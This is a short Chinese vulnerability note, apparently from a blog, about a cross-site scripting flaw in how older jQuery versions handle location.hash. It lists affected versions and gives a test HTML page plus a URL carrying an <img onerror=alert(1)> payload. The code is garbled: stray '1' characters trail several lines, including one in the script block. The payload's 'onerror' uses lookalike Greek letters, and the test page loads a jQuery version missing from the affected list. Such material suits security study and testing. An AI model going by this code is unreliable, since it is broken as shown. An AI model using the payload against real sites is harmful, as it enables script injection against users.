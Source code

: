 **原理：**

    [jQuery](https://so.csdn.net/so/search?q=jQuery&spm=1001.2101.3001.7020)中过滤用户输入数据所使用的正则表达式存在缺陷，可能导致 location.hash 跨站漏洞

**影响版本：**

*       jquery-1.7.1~1.8.3
*       jquery-1.6.min.js，jquery-1.6.1.min.js，jquery-1.6.2.min.js
*       jquery-1.5所有版本
*       jquery-1.4所有版本
*       jquery-1.3所有版本
*       jquery-1.2所有版本

测试代码：

```
<html>      
<head>      
    <title>JQuery-xss-test</title>      
    <script  src="https://code.jquery.com/jquery-1.0.1.js" ></script>      
    <script>      
    $(function(){      
    try { $(location.hash) }       
    catch(e) {}      
    })      1
    </script>      1
</head>      1
<body>      1
    Jquery xss test.      1
</body>      1
</html>
```


然后访问如下：http://localhost/#<img src=/ οnerrοr=alert(1)>

在线测试平台：[JQuery跨站脚本在线测试](http://research.insecurelabs.org/jquery/test/)